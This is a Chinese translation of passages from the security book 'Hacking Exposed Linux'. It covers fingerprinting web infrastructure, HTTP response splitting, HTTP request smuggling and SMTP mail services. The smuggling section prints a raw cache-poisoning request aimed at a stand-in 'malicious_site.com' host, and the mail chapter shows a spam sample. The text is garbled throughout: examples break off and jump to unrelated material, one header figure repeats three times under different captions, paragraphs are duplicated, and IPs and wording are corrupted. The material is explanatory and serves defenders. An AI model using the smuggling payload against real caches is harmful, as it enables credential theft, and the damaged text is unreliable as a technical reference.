检测 Web 基础设施组件的技术取决于你试图检测的是哪种组件。负载均衡器通常配置为根据 IP 地址重定向入站连接。因此，通过从一系列 IP 地址发送请求并分析输出，你可能通过响应中的细微变化判断是否存在负载均衡器。这些变化可能包括显示不同服务器类型和版本的 HTTP Server 头部、由于 NTP 未配置导致的服务器日期差异、HTTP Location 头部留下的 IP 地址范围，甚至是在所有 Web 服务器上发现的非标准内容所提供的页面差异。

负载均衡器可能具有某些入侵防护能力，会产生错误或发送 RST 包来关闭连接，从而暴露其存在。管理 Web 界面也可能对互联网开放，允许攻击者确定使用的是哪种负载均衡器、该特定版本的负载均衡器是否存在漏洞，以及进行暴力攻击尝试访问负载均衡器管理功能的能力。

负载均衡或负载分发也可以通过配置 DNS 轮询（Round Robin）来实现，而不是实施物理负载均衡器。使用 Linux 的 `dig` 命令判断是否配置了 DNS 轮询是非常轻易的。该工具将为特定域名显示多个 IP 地址，且在执行多次请求时，答案应该是随机的。这种配置允许攻击者绕过轮询负载均衡，强制所有流量流向一个特定地址，这可能会增加拒绝服务攻击（DoS）成功的概率。

你可以使用类似的技术识别入侵防护解决方案和 Web 代理。检查针对特定构造请求的 HTTP 头部，或 Web 代理或IPS 由于请求被拦截而返回的错误消息。你还可以通过向 Web 应用传递非标准输入时产生的错误消息，或 Web 应用内产生大量动态内容来检测数据库服务器。

你可以通过 HTTP 和 HTTPS 请求 URL，然后检查网络流量中的生存时间（TTL）是否发生变化来识别 Web 代理。如果 TTL 值不同，则相同的 URL 通过某些代理为 HTTP 和 HTTPS 重定向到了不同的机器。

如果使用了缓存，Web 代理还执行缓存，那么你可以通过记录第一个请求的往返时间（RTT）并执行相同的请求，观察 RTT 值是否因为请求被缓存而减小来识别这一点。`Hping` 是一个使用这些值的优秀 Linux 工具。

防火墙如果配置正确，应该丢所有直接指向它们的流量。通过对端口 80 或 443 上的 Web 服务器执行 `Traceroute`，你可以确定防火墙的位置，因为在它的位置没有响应返回，从而确定攻击者与防火墙之间的跳数。防火墙并不总是配置正确的，其他用途可能会让端口开放给互联网，或者防火墙可能被用于 VPN 解决方案。这在处理 Check Point 防火墙时很常见，可以通过 TCP 端口 264 和 18264 进行检测。如果 TTL 在防火墙本身过期，某些防火墙会返回 ICMP Expired 包，允许攻击者枚举防火墙位置并对所使用的防火墙类型提供一些信息。

### 防止 Web 基础设施检测：基础设施识别

所有 Web 服务器都应该有一个标准，包括标准的 Web 内容；它们应该启用 NTP；并且不应显示任何与特定 Web 服务器的信息，如内部 IP 地址或系统名称。

任何设备都不应向最终用户显示错误消息，设备可能会通过错误消息或其 HTTP 头部泄露其类型和版本。某些设备（如负载均衡器和防火墙）执行相对简单的入侵防护功能，可能会向执行各种攻击的攻击者暴露其存在。

## HTTP 响应分割

| 流行度 | 6 |
| 简单性 | 4 |
| 影响 | 8 |
| 风险评分 | 6 |

HTTP 响应分割漏洞的产生是因为 Web 应用程序未验证用户提供的输入，即回车（CRs）和换行符（LFs）。当这些用户提供的数据被 Web 应用程序放入 Web 服务器响应的 HTTP 头部时，攻击者能够通过注入 CR 和 LFs 来分割响应，然后继续一个完全新的响应，执行各种攻击。

假设 Web 应用程序使用以下自定义脚本在用户请求某些页面时重定向用户：

```
HTTP/1.1 302 Found
Location: http://example.com/page2
```

注：原文后半部分文本存在大量重复和 OCR 错误，此处已根据提供的片段对语义内容进行了清理。

# Hacking Exposed Linux：Linux 安全秘籍与解决方案


允许攻击者利用类似的技术混淆请求/响应序列，从而接收本应属于另一个用户的服务器响应。这可能导致响应中的敏感信息泄露，包括会话标识符和 Cookie，这再次可能导致账户被破解。

## 防止 HTTP 响应分割：Web 缓存代理

Web 缓存代理可能是 Web 架构中危险的部分，因为它们可以被用于执行多种攻击，例如网站篡改、会话劫持或窃取敏感数据或凭据。

为了确保 Web 缓存仅用于善意而非恶意，Web 应用程序本身必须进行安全的设计和实现，特别是在输入和输出数据验证方面。

网页以及 Web 缓存中的缓存设置也需要进行配置，以减少滥用。

## HTTP 请求走私 (HTTP Request Smuggling)

| 流行度 | 2 |

| :--- | :--- |

| 简单性 | 2 |

| 影响力 | 7 |

| 风险等级 | 4 |

这种攻击并不依赖 Web 应用程序内部的漏洞，而是依赖于 Web 架构本身。它依赖于不同厂商和产品所使用的 HTTP 协议的不同实现方式，例如如何处理带有两个 `Content-Length` 头的请求。这种攻击由 Watchfire 开发，该其后已被 IBM 收购。原始白皮书可以在 `https://www.watchfire.com/securearea/whitepapers.aspx` 找到。

在以下示例中，虚拟主机 `www.example.com` 和 `www.malicious_site.com` 托管在具有相同 IP 地址的同一服务器上：

```
POST http://www.example.com/welcome.html HTTP/1.1
Host: www.example.com
Content-Type: text/html
Content-Length: 0
Content-Length: 69
[CR LF]
GET /login.html HTTP/1.1
Host: www.malicious_site.com
Myheader: [space no CR LF]
GET http://www.example.com/login.html HTTP/1.1
Host: www.example.com
[CRLF]
```

## 第 13 章：Web 应用程序攻击

假设网络上的 Web 缓存实现的 HTTP 协议将最后一个 `Content-Length` 头部接受为 Web 头部；因此，接受第 7–9 行的 69 个字符作为 `welcome.html` 的请求体。这允许代理随后继续解析第 10-12 行包含的 `login.html` 页面请求。

现在代理已将此内容传递给 Web 服务器，让我们分析 Web 服务器将如何解析这些请求，假设它接受看到的第一个 `Content-Length` 头部作为 Web 头部。第一个 `Content-Length` 值为 0，Web 服务器接受第 1–6 行的第一个请求，返回 `welcome.html`，代理也已经确定了这一点。这允许 Web 服务器继续解析从第 7 行开始的请求；然而，由于第 9 行末尾没有 CRLF，第 10 被解析为 `Myheader` 头部的值。因此，请求由第 7–12 行组成，返回 `fakelogin.html`。

这导致了预期的页面与服务器实际返回的页面之间存在冲突。假设这些是可缓存的页面，该页面会将 `http://www.malicious_site.com/fakelogin.html` 页面缓存在 URL `http://www.example.com/login.html` 下。在任何时候，如果有任何用户请求 `login.html` 页面，代理都将返回 `fakelogin.html` 的内容。

这可能导致诸如通过在 Web 服务器中走私恶意的 HTTP 请求来捕获身份验证凭据、会话劫持、跨站脚本，甚至绕过入侵防御系统或 Web 应用防火墙。

## 防止 HTTP 请求走私：Web 基础设施选择

每个被认为是 Web 应用程序基础设施一部分的设备都需要进行安全配置，以保证 Web 应用程序的安全。如果 Web 应用程序架构的任何部分配置不当，那么 Web 应用程序可能会面临各种攻击。

研究并测试 Web 基础设施组件，以确保由于相关协议的不同实现可能会产生漏洞。作为应用防火墙、入侵检测和防御系统、负载均衡器、Web 服务器、缓存代理的设备都可能在创建漏洞方面发挥作用。这些漏洞可能难以修复，因为相关厂商必须更改其对 HTTP 协议的实现，否则需要更换设备。

在进行威胁建模并确定您的 Web 应用程序应与第三方 Web 应用程序托管在同一台服务器上，甚至是同一个环境中时，请考虑这些第三方应用程序带来的风险。如果这些风险太高且无法缓解，那么你需要将 Web 应用程序移动到另一个环境，或者创建一个专用环境。

### 总结

在了解了 Web 应用程序可能面临的许多漏洞后，大多数 Web 应用程序安全的新手（包括大量的开发者）对 Web 应用程序可以被无数种方式攻击以操纵或破坏其核心目的感到非常震惊。这是由于组织在开发系统时没有遵循 Web 应用程序安全框架导致的，其中包括：

- 对用户进行安全意识培训，以最大限度地减少信息泄露并减少人为安全漏洞。
- 将安全性构建到 `SDLC`（软件开发生命周期）中，以确保安全不是事后考虑。
- 安全 Web 服务器配置并进行补丁和升级，以防止系统和应用程序被破解。
- 验证所有 Web 应用程序数据，以确保您的 Web 应用程序按预期运行。
- 跟上最新的 Web 2.0 攻击以确保您实施了适当措施。

## 第 14 章

### 案例研究

`MED` 是 `UTC` 的计算实验室。该实验室完全由学生运行。实验室的创建有两个目的：1) 管理计算机科学（`CS`）部门教师和学生使用的网络，包括教授的桌面电脑、服务器、交换机、防火墙等；2) 让学生暴露在真实环境中以学习管理员的技能。

周六早上，管理员之一 `IO` 收到了来自 `CS` 部门教授 `X` 的电话。教授 `X` 感到愤怒且紧张，因为他的邮件无法工作，而论文周一就要提交。他已经进行了基础测试——从自己和其他其他账户发送邮件。`IO` 和另一位管理员 `PEEL` 去 `MED` 开始调试邮件服务器。经过一些分析，他们发现 `Exim`（用于接收和递送邮件的开源邮件传输代理 `MTA`）在每次尝试处理输出队列时都会崩溃。

在重启服务并在调试模式下从命令行运行命令后，他们开始分析代码但对发生了什么没有答案。他们最终检查队列中有多少邮件，发现有 100,000 封！得知这一点，他们确定服务器正遭受 Do 攻击。通过对队列中的消息进行快速分析，他们确定所有邮件都来自 `MED` 内部的一台机器。他们找到了该机器并迅速拔掉了网线。

这样 Do 攻击得到了控制，他们恢复恢复服务。使用 `Perl` 脚本将队列中匹配攻击者 IP 地址的所有邮件移动到另一个文件夹中供日后分析。一旦文件夹清理，他们重启服务，一切正常。他们找到了负责这次攻击的学生及其团队，并质问发生了什么。事实证明没有任何恶意活动。一个监控程序每两秒发送一封报告连接丢失的邮件。

# 第 14 章：邮件服务

简单邮件传输协议（`SMTP`）更便于电子邮件的交换。尽管即时消息（`IM`）日益流行，但自 1992 年以来，由于我们一直使用电子邮件作为通信媒介（参考 `RFC 822`，后由 `RFC 2822` 更新），它仍然是互联网上使用最广泛的协作工具。邮件广泛参与了各种网络活动，从最常用的社交媒体之一到各种自动化流程、监控系统、交易系统等。在本章中，我们将介绍 `SMTP` 的基础知识，以及涉及邮件服务的组件。

## SMTP 基础知识

其名称中的 S 代表“Simple”（简单），`SMTP` 被设计为一种简单的协议，用于在两个实体之间传递消息，这两个实体通常被称为邮件传输代理（`MTA`）和邮件用户代理（`MUA`）。这仅仅是任何邮件系统中涉及的两个循环往复的操作。还有许多其他操作，了解和理解这些操作非常重要，特别是在处理和比较 `SMTP` 实现时。`MTA` 和 `MUA` 之间事务的简单示例可以在图 14-1 中看到，或者在每封邮件中。

从 `SMTP` 的角度来看，一条消息由头信息（`headers`）和正文（`body`）组成。头信息是机器可解析的，有时包含各种信息，最基本的头信息如用于邮件收件人的 `To:` 或主题的 `Subject:`。发件人地址可能被被迅速视为描述的一项基础信息而忽略，但你会发现它是一个更复杂的概念。

消息的正文包含了除头信息以外的所有内容，并且通常不会被 `MTA` 解析（尽管正如你将看到的，`MTA` 会为了过滤目的对其进行解析）。通常，邮件正文包含纯文本，也可以是 HTML（这在技术上意味着人类），并且在多部分消息（即带有附件的消息）中包含 `MIME`。`MIME` 代表多用途互联网邮件扩展协议（Multipurpose Internet Mail Extensions），它是一种用于发送除纯 ASCII 和二进制内容之外的不同字符编码的标准；邮件客户端会在需要时自动处理 `MIME`。

某些头信息可以被删除，某些可以被修改，某些将由邮件流过程中的不同组件添加。每个 `MTA` 都应该始终添加一个 `Received` 头信息，以跟踪其在传输过程中邮件路径中的角色。理论上，通过查看头信息，你应该能够追踪到原始发送者。然而，你会发现为什么情况并不总是如此。

每封邮件都有一组头信息以供 `SMTP` 标准解析，某些头信息是大多数 `SMTP` 实现认为是标准的但实际上并非如此，另一些带星号（*）的头信息是可以自定义的，可以包含任何类型的消息。将其视为一种将用户定义的内容从正文转移到头信息的方法。一些广泛使用的示例是过滤应用程序（`X-Spam`）和 `MUA`（`X-Mailinger`）。

## Hacking Exposed 局限：Linux 安全秘密与解决方案

```
Subject: Re: linux security kernel cap
From: <rick@isecom.org>
Date: 12/14/2007 7:37 PM
To: <pete@isecom.org>
X-Account-For: 
X-Udbi: 22120db8ee84c12
X-Mozilla-Status: 0000000
X-Mozilla-Path: <rick@isecom.org>
Delivered To: <pete@isecom.org>
Delivered: (unknown) by mail4.isecom.org
Received: (06678 from network) [66.36.29.4] with SMTP; 14 Dec 2007 18:37:03 -0000
Received: from mail4.isecom.org (127.0.0.1) by mail4.isecom.org (Postfix) with SMTP ID 6B291C93B2 for <pete@isecom.org>; Fri, 14 Dec 2007 13:37:03 -0050 (EST)
X-Virus-Check: by mail4.org
X-Spam-Check: by mail4.org
X-Spam-No: hits=0;score=0.114=0.5-tests--ALL_TRUSTED_USER_IN_WHITELIST-enabled=3.200023
X-Spam-Filter: 5e7c702936d2b0b6a1e745b2e
Translating sender: (unknown) (HELO)
Received: from rel00.isecom.org (rel00.isecom.org) by mail4.isecom.org (Postfix) with SMTP ID 6B291C93B2 for <pete@isecom.org>; 14 Dec 2007 13:37:03 -0050 (EST)
Received: (0663 invited by uuu [id]) on 14 Dec 2007 18:37:03 -0000
Received: from (unknown) (with SMTP); 14 Dec 2007 18:37:03 -0000
Authenticated
Message-Id: <C76C3DE-9030506@isecom.org>
User-Agent:
Mime-Version: 1.0
References: <476C2806.7026068@isecom.org>
In-To: 1
Content-Type: text/plain; charset=ISO-8859-1
```

图 14-1：`MTAs` 和 `MUAs` 之间的事务示例

```
Subject: Re: linux security kernel cap
From: <rick@isecom.org>
Date: 12/14/2007 7:37 PM
To: <pete@isecom.org>
X-Account-For: 
X-Udbi: 22120db8ee84c12
X-Mozilla-Status: 0000000
X-Mozilla-Path: <rick@isecom.org>
Delivered To: <pete@isecom.org>
Delivered: (unknown) by mail4.isecom.org
Received: (06678 from network) [66.36.29.4] with SMTP; 14 Dec 2007 18:37:03 -0000
Received: from mail4.isecom.org (127.0.0.1) by mail4.isecom.org (Postfix) with SMTP ID 6B291C93B2 for <pete@isecom.org>; Fri, 14 Dec 2007 13:37:03 -0050 (EST)
X-Virus-Check: by mail4.org
X-Spam-Check: by mail4.org
X-Spam-No: hits=0;score=0.114=0.5-tests--ALL_TRUSTED_USER_IN_WHITELIST-enabled=3.200023
X-Spam-Filter: 5e7c702936d2b0b6a1e745b2e
Translating sender: (unknown) (HELO)
Received: from rel00.isecom.org (rel00.isecom.org) by mail4.isecom.org (Postfix) with SMTP ID 6B291C93B2 for <pete@isecom.org>; 14 Dec 2007 13:37:03 -0050 (EST)
Received: (0663 invited by uuu [id]) on 14 Dec 2007 18:37:03 -0000
Received: from (unknown) (with SMTP); 14 Dec 2007 18:37:03 -0000
Authenticated
Message-Id: <C76C3DE-9030506@isecom.org>
User-Agent:
Mime-Version: 1.0
References: <476C2806.7026068@isecom.org>
In-To: 1
Content-Type: text/plain; charset=ISO-8859-1
```

图 14-2：带有自定义头信息的邮件示例

```
Subject: Re: linux security kernel cap
From: <rick@isecom.org>
Date: 12/14/2007 7:37 PM
To: <pete@isecom.org>
X-Account-For: 
X-Udbi: 22120db8ee84c12
X-Mozilla-Status: 0000000
X-Mozilla-Path: <rick@isecom.org>
Delivered To: <pete@isecom.org>
Delivered: (unknown) by mail4.isecom.org
Received: (06678 from network) [66.36.29.4] with SMTP; 14 Dec 2007 18:37:03 -0000
Received: from mail4.isecom.org (127.0.0.1) by mail4.isecom.org (Postfix) with SMTP ID 6B291C93B2 for <pete@isecom.org>; Fri, 14 Dec 2007 13:37:03 -0050 (EST)
X-Virus-Check: by mail4.org
X-Spam-Check: by mail4.org
X-Spam-No: hits=0;score=0.114=0.5-tests--ALL_TRUSTED_USER_IN_WHITELIST-enabled=3.200023
X-Spam-Filter: 5e7c702936d2b0b6a1e745b2e
Translating sender: (unknown) (HELO)
Received: from rel00.isecom.org (rel00.isecom.org) by mail4.isecom.org (Postfix) with SMTP ID 6B291C93B2 for <pete@isecom.org>; 14 Dec 2007 13:37:03 -0050 (EST)
Received: (0663 invited by uuu [id]) on 14 Dec 2007 18:37:03 -0000
Received: from (unknown) (with SMTP); 14 Dec 2007 18:37:03 -0000
Authenticated
Message-Id: <C76C3DE-9030506@isecom.org>
User-Agent:
Mime-Version: 1.0
References: <476C2806.7026068@isecom.org>
In-To: 1
Content-Type: text/plain; charset=ISO-8859-1
```


从 SMTP 的角度来看，消息由头信息和正文组成。头信息是机器可解析的，有时包含各种信息，最基本的头信息如用于邮件收件人的 `To:` 或主题的 `Subject:`。发件人地址可能被迅速视为描述的一项基础信息而忽略，但你会发现它是一个更复杂的概念。

消息的正文包含了除头信息以外的所有内容，并且通常不会被 MTA 解析（尽管正如你将看到的，MTA 会为了过滤目的对其进行解析）。通常，邮件正文包含纯文本，也可以是 HTML（这在技术上意味着人类），并且在多部分消息（即带有附件的消息）中包含 MIME。MIME 代表多用途互联网邮件扩展协议，它是一种用于发送除纯 ASCII 和二进制内容之外的不同字符编码的标准；邮件客户端会在需要时自动处理 MIME。

某些头信息可以被删除，某些可以被修改，某些将由邮件流过程不同组件添加。每个 MTA 都应该始终添加一个 `Received` 头信息，以跟踪其在传输过程中邮件路径中的角色。理论上，通过查看头信息，你应该能够追踪到原始发送者。然而，你会发现为什么情况并不总是如此。

每封邮件都有一组头信息以供 SMTP 标准解析，某些头信息是大多数 SMTP 实现认为是标准的但实际上并非如此，另一些带星号（*）的头信息是可以自定义的，可以包含任何类型的消息。将其视为一种将用户定义的内容从正文转移到头信息的方法。一些广泛使用的示例是过滤应用程序（`X-Spam`）和 MUA（`X-Mailinger`）。

### 理解发送者和信封发送者

正如你在图 14-2 中所示，邮件有一个 `Return-Path` 和 `From` 头。这两者之间的区别在后续关于邮件过滤的讨论中非常重要。

`Return-Path` 指信封发送者地址。它从初始 SMTP 命令的 `FROM` 命令获取，并在每个 MTA 中都被保留（尽管在某些特殊情况下可能会被重写）。相反，`From` 头与 SMTP 事务没有任何关系；它由 MUA 定义，并可以被发送用户轻松更改。此头信息也是每个邮件客户端在读取消息时突出显示的一个，而 `Return-Path` 通常是隐藏的。`Return-Path` 也可以被更改（或者准确地说，可以被伪造），这涉及 MUA 之间的某些晦涩设置，发生在发送消息时。任何形式的伪造都会触发关于可能的伪造发送者的 `X-Authentication-Warning` 头信息。

# 第 14 章：邮件服务

## 435

设置两个不同的发送者的目的是将客户端应用程序（发送者）提供的信息与实际的 SMTP 事务（信封发送者）分开。所有的邮件服务器设置和过滤器，以及像 SPF（我们稍后会介绍）之类的系统始终适用于信封发件人（envelope-from），而不是你在邮件中清晰看到的 `From:` 头部。这些细微的头部验证机制通常不会影响最终用户感知到的信息，而是有助于管理员追踪违规邮件的路径。

这两个头部都没有标准的验证格式（上述提到的 `X-Authentication-Warning` 却外外，在某些情况下，它可能会对头部的合法性提供微弱的提示）。信封发件人（envelope sender）在无法投递给指定的收件人或超时时，也被用于处理退信邮件。`From:` 地址不应被用于此类目的（尽管某些故障的邮件是这样做的）。

这种区别最典型的例子之一是邮件列表。当消息被发布到邮件列表时，所有的退信都由邮件列表服务器处理，而不是由原始发送者处理。这就是为什么即使 `From:` 地址指向原始发送者，信封发件者也指向邮件列表服务器。你可以作为一个练习，在你的信箱中寻找此类示例。

## 邮件路由

SMTP 流量通常由你的客户端应用程序（MUA）用于连接到 MTA 或在 MTA 之间传输。邮件传输的最后一个阶段通常是 MDA 在信箱中完成消息的投递。

关于邮件路由需要理解的第一点是，正如我们在上一章中提到的，域名通过 MX DNS 记录映射到它们的邮件服务器。这是一个显示 MX 记录的示例查询：

```
<Verbatim listing 3>
$ dig -t mx google.com
;; <<> DIG 9.3.0 << -t mx google.com
;; global options: printcmd
;; Got answer:
;; ->HEADER-- opcode: QUERY, STATUS: NOERROR, id: 23016
;; flags: qr rd ra; QUERY: 1, ANSWER: 4, AUTHORITY: 4, ADDITIONAL: 8
;; QUESTION SECTION:
google.com. IN MX
;; ANSWER SECTION:
google.com. 3600 IN MX 10 smtp1.google.com.
google.com. 3600 IN MX 10 smtp2.google.com.
google.com. 3600 IN MX 10 smtp3.google.com.
google.com. 3600 IN MX 10 smtp4.google.com.
;; AUTHORITY SECTION:
google.com. 67916 IN NS ns3.google.com.
google.com. 67916 IN NS ns4.google.com.
```

```
google.com 67916 IN NS ns1.google.com.
google.com 67916 IN NS ns2.google.com.
;; ADDITIONAL SECTION:
smtp1.google.com. 600 IN A 216.239.57.25
smtp2.google.com. 600 IN A 64.233.167.25
smtp3.google.com. 600 IN A 64.233.183.25
smtp4.google.com. 600 IN A 66.102.9.25
ns1.google.com. 152442 IN A 216.239.32.10
ns2.google.com. 152442 IN A 216.239.34.10
ns3.google.com. 152442 IN A 216.239.36.10
ns4.google.com. 152442 IN A 216.239.38.10
;; Query time: 157 msec.
;; SERVER: 140.105.134#53(140.105.134.1)
;; WHEN: Wed Oct 11 19:28:03 2006
;; MSG SIZE 316
</Verbatim listing>
```

MX 记录在邮件事务开始时被访问；查询后，MTA/MUA 会与指定的服务器（通常是优先级最高的那个）建立 SMTP 连接以投递消息。在这个例子中，所有返回的 MX 记录都有相同的偏好值（10）。数字越低，优先级越高；偏好值为 10 的 MX 会在偏好值为 20 的 MX 之前尝试（但并非总是如此，例如当另一个 MTA 通过 IP 地址静态链接时）。

每个 MTA 都根据其路由配置决定对消息进行什么（包括是否接受它）。基本上，MTA 在通过 SMTP 接收消息后会执行以下评估：

- 如果电子邮件地址被认为是本地的，消息将投递到本地信箱（通常是服务器上的一个文件或目录，但也可能是数据库或其他复杂的东西）。

- 如果电子邮件地址不是本地但允许中继，或者接入连接的源 IP 地址允许中继，则接受消息并将其传递给另一个 MTA（静态配置的 MTA 或 MX 记录所示的 MTA）。

通常，允许基于 IP 地址中继的服务器是你的 ISP 提供用于发送外邮件的服务器。允许特定域名中继的服务器是暴露的服务器，它们本身并不托管信箱（它们只是将消息传递给其内部的其他服务器）。就像 TCP/IP 一样，路由有无限可能，你可能会在那里发现各种中继配置。邮件的路径通过 `Received` 头部进行追踪：

```
<Verbatim listing 4>
Delivered-To: <andrea@isecom.org>
Return-Path: test@isecom.org
Received: from smtp.isecom.org (smtp.isecom.org [140.211.166.183])
    by azurra.isecom.org (13.6/13.6) with ESMTP id k4L5UO01473
    (version=TLSv1/SSLv3 cipher=DHE-RSA-AES-256-SHA bits=256 verify=NO)
    for <andrea@isecom.org>; Sat, 20 May 2006 21:05:33 GMT
Received: by smtp.isecom.org (Postfix)
    id D138a6413; Sat, 20 May 2006 21:05:29 (UTC)
Delivered-To: andrea@isecom.org
Received: from localhost ([127.0.0.1])
    by smtp.isecom.org (Postfix) with ESMTP id B87EF6409
    for <andrea@isecom.org>; Sat, 20 May 2006 21:05:29 (UTC)
Received: from smtp.isecom.org ([127.0.0.1])
    by localhost (smtp.isecom.org [127.0.0.1]) (avavis-new, port 1024)
    with ESMTP id 24780-3 for <andrea@isecom.org>; Sat, 20 May 2006 21:05:23 (UTC)
Received: from mail2.isecom.org (mail1 [81.69.210])
    (using TLSv1 with DHE-RSA-AES-256-SHA (256/256)
    (No certificate requested)
    by smtp.isecom.org (Postfix) with ESMTP id 6B37EE6405
    for <andrea@isecom.org>; Sat, 20 May 2006 21:05:25 (UTC)
Received: from localhost ([127.0.0.1])
    by mail2.isecom.org (Postfix) with ESMTP id BDF11B0DE
    for <andrea@isecom.org>; Sat, 20 May 2006 23:12:55 (CEST)
Received: from mail2.isecom.org ([127.0.0.1])
    by localhost ([127.0.0.1]) (avidis-new, port 1024)
    with ESMTP id 11508-04 for <andrea@isecom.org>; Sat, 20 May 2006 23:12:42 (CEST)
Received: from localhost (unknown [192.168.0.5])
    by mail2.isecom.org (Postfix) with ESMTP id 54666B0DC
    for <andrea@isecom.org>; Sat, 20 May 2006 23:12:41 (CEST)
Date: Sat, 20 May 2006 23:05:04 +020
From: John Doe <test@isecom.org>
To: andrea@isecom.org
</Verbatim listing>
```

每个 MTA 在路由消息时都应该添加自己的追踪信息，但添加伪造头部来混淆消息是非常简单的。由于每个 MTA 都会在某处添加 `Received` 头部，你会会有合法的头部（垃圾邮件发送者拥有消息中的所有服务器是不可能的）。

一种非常常见的伪造是在 `HELO` 命令中传递无效域名，这是初始问候（我们稍将在“初始阶段”中讨论该命令的验证选项）。这是一个伪造域名的示例。你可以很快发现 82.157.137 并没有解析到 `foo.com`。正确的 IP 信息由接收方 MTA 保存，无法伪造；而域名则是为了欺骗那些懒得检查其是否与 IP 地址匹配的人。

```
<Verbatim listing 5>
Received: from foo.com ([82.157.137])
    by mail.isecom.org (81.3.8/81.3.7) with SMTP id k96DsnOS05189
    for andrea; Fri, 6 Oct 2006 13:55:06 GMT
</Verbatim listing 5>
```

MTA 可以配置为执行反向解析。在这种情况下，你需要一个更好的头部：

```
<Verbatim listing 6>
Received: from foo.com (host137-175.pool8252.interbusiness.it [82.157.137])
    by mail.isecom.org (81.3.8/81.3.7) with SMTP id k96DsnOS05189
    for andrea; Fri, 6 Oct 2006 13:55:06 GMT
</Verbatim listing 6>
```

某些 MTA 足够友好，会报告可能的伪造（因为 213.155.199.178 的域名无法解析回 IP 地址，这在拨号池中很常见）：

```
<Verbatim listing 7>
Received: from [213.155.199.178] (hwads1-213-155-199-178.telvia.it [213.155.199.178])
    (may be forged)
    by dns1.vanja.com using ESMTP<9C> id k77LAwai005476
    (version=TLSv1/SSLv3 cipher=DHE-RSA-AES-256-SHA bits=256 verify=NOT)
    Mon, 07 Aug 2006 23:11:00 +020
</Verbatim listing 7>
```

## 攻击分类

邮件服务面临来自数据网络和传统邮件的问题，并且结合 VoIP 等技术，攻击的主要目的是欺诈。在互联网的最初几十年里，许多攻击是团体或个人出于兴趣、好奇甚至为了获得权利而实施的，但在大多数情况下，这些动机已经贬值，并成为攻击的主要动力。

## 第14 章：邮件服务

每天有数百万人阅读电子邮件，但其中大多数人（这完全理解）并不清楚如 `From:`（发件人）头部信息和信封发件者（envelope sender）之间的区别。

伪造的 `From:` 头部或简单的误导性名称就能欺骗大多数人。这就是为什么一个潜在上具有社交属性的问题变成了一个日益具有挑战性的问题，并占用了每位邮件和安全管理员日常日程中的大量时间。

接下来的章节将描述一种简单的分类法，根据攻击的主要目标以及为了阻止或绕过攻击可以采取的方法进行分类：

- 欺诈

- 数据或信息的篡改

- 拒绝服务或可用性问题

## 欺诈

本节涵盖了全球生成的电子邮件中，极高比例已成为问题的实践。在此类别中，你会发现传统的诈骗，如尼日利亚式诈骗、最新的钓鱼攻击，甚至是发送旨在低价购买选定股票的邮件。随着时间的推移，邮件欺诈已成为一项价值数十亿美元的业务。

## 垃圾邮件 (SPAM)

| 流行程度: | 10 |

| :--- | :--- |

| 简单性: | 5 |

| 影响力: | 3 |

| 风险评分: | 6 |

每个人都知道垃圾邮件（或未经请求的批量邮件，UBE），而且每个人都讨厌它。由于某些垃圾邮件很可能在你阅读这段文字时恰好落入你的收件箱，描述它是什么似乎相当没有必要。

Hacking Exposed Linux: Linux Security Secrets & Solutions

虽然严格来说这不属于安全问题，但垃圾邮件会骚扰用户，违反内部安全策略策略和用户隐私，并消耗你的存储空间。更不用说它还可以携带恶意软件，从而成为你的网络和用户的直接安全问题。

我们所指的 SPAM 是关注商业化广告产品的未请求电子邮件。SPAM 包含了通过各种技术在互联网上预先采集的、同时发送给数亿个电子邮件地址的批量邮件。它可以被定义为“加强版”的电话营销，代表了一种低成本、低投入即可触达数百万客户的方法。

垃圾邮件在多年来一直在演变；它从文本信息开始，然后变为 HTML 以为广告提供精美的格式，最后但不是最重要的，是图像和 PDF 文件。大多数情况下，这些最后的格式作为所发送消息的容器。尝试绕过某些过滤器的代码通常编写得错误，或者包含替换字母，允许它们例如变成 cialis 或 vagra。

```
<Verbatim listing 8>
[example of SPAM]
```

```
From: Dick Christopher Woodboer@clivinginnapples.com
To: Kennedy Lisa <info@isecom.org>
Subject: Anna's Autopsy Report and Funeral Secrets
Date: 05 May 2007 14:49:33 +0000
X-Mailer: Microsoft Outlook Express 6.00.2800.1441
```

```
#1 世界领先增粗方案
你可以在这里订：http://advertgail.info
100% 保证免费效果，否则退款！
```

```
jignqmfkfkgiogkgpgjjfskguktutqukqppugujtttsputtspthtjuj
```

```
</Verbatim listing>
```

## 邮件过滤的复杂艺术（垃圾邮件和病毒流量）

最近许多精力集中在过滤邮件流量的新型更好方法上。当然，每个 MTA（邮件传输代理）都可以应用静态规则，而垃圾邮件和病毒流量的增加了对动态过滤的需求。


邮件过滤是一个复杂的课题，有许多不同的过滤方法。首先你必须理解，处理所有的邮件流量将消耗大量的资源，尤其是在繁忙的服务器上。即使在讨论你将使用的技术之前，你也必须决定过滤邮件是否真的必要，以及应该在哪里进行过滤。

当然，最省心的方法是让最终用户或其自己的邮件使用他们自己的资源进行最后的过滤。然而，你的安全策略或安全措施中的用户意识水平可能要求全站过滤。

对于本地投递，如果用户通过 shell 访问收件箱，你可以将过滤推迟给本地投递代理（LDA）。这意味着过滤是以用户权限执行的，通常带有全站扩展配置和作为备用方案的自定义用户设置。在每个用户端进行过滤的优势是，在最坏的情况下，任何问题或故障只会影响单个用户的消息，而不是所有流量。

即使集中邮件控制看起来是必要的，我们总是强烈建议不要盲目丢弃和/或隔离受影响的邮件，而是添加一个用户客户端可以检查的头部。这具有增加用户意识的额外好处，为用户提供了一个可以轻松用于排序消息的工具，并且不会给管理员带来处理隔离邮件的麻烦问题。

邮件过滤通常在 MTA 级别全站范围内执行，并在你的邮件服务器配置中有直接的钩子（hooks）。不同的 MTA 提供不同的接口来访问外部过滤应用程序。其中一些（如 Sendmail 和 postfix）拥有完整的 API (`limfilter`)，允许快速有效的过滤；另一些允许你直接管道传输到外部程序，或将过滤器定义为 LDA 的替代品。

这是一个过滤器定义的示例：

```
INPUT_MAIL_FILTER ('mimedfang'
S=unix:/var/spool/MIMEDfang/mimedfang.sock,
F=T,T=S:1m;R:1m')
```

- 确保你可能进行的任何形式的过滤都免于故障。如果你的过滤程序开始故障，不应该丢失错误；而是会发生一个临时的（错误）。

## Hacking Exposed Linux: Linux Security Secrets & Solutions

当然，最终，通过公共加密规避封禁是不可能的。

在实施全站过滤时，你应该尝试在邮件接受到队列之前触发它。

### 基于 DNS 的黑列表 (DNSBL)

关于垃圾邮件过滤的讨论如果没有提到基于 DNS 的黑列表（DNSBL，称为实时洞列表 RBL）将是不完整的。

DNSBL 是易于获取（通常通过 DNS 或 HTTP）的垃圾邮件发送者 IP 地址列表，可用于 MTA 黑名单。它们是防止垃圾邮件的最广泛采用机制之一。由第三方实体使用提交的项目发布，它们对结果没有任何保证。

